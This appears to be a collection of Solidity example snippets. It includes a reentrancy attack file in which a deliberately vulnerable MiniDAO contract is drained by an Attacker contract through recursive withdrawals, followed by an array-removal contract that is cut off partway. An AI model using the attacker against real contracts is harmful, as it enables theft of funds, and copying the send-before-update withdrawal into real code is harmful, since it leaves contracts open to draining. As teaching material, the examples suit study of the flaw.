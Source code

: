 ## reentry-attack.sol
```js
contract MiniDAO {
    mapping (address => uint) balances;

    function Deposit() {
        balances[msg.sender] += msg.value;
    }

    function Withdraw(uint amount) {
        if(balances[msg.sender] < amount) throw;
        msg.sender.call.value(amount)();
        balances[msg.sender] -= amount;
    }
}

contract Attacker {

    // limit the recursive calls to prevent out-of-gas error
    uint stack = 0;
    uint constant stackLimit = 10;
    uint amount;
    MiniDAO dao;

    function Attacker(address daoAddress) {
        dao = MiniDAO(daoAddress);
        amount = msg.value;
        dao.Deposit.value(msg.value)();
    }

    function Attack() {
        dao.Withdraw(amount);
    }

    function() {
        if(stack++ < 10) {
            dao.Withdraw(amount);
        }
    }
}```

## remove-from-array.sol
```js
contract Contract {
    uint[] public values;

    function Contract() {
    }

    function Find(uint value) returns(uint) {
        uint i = 0;
        while (values[i] != value) {
            i++;
        }
        return i;
    }

    function RemoveByValue(uint value) {
        uint i = Find(value);
        RemoveByIndex(i);
    }

    function RemoveByIndex(uint i) {
```
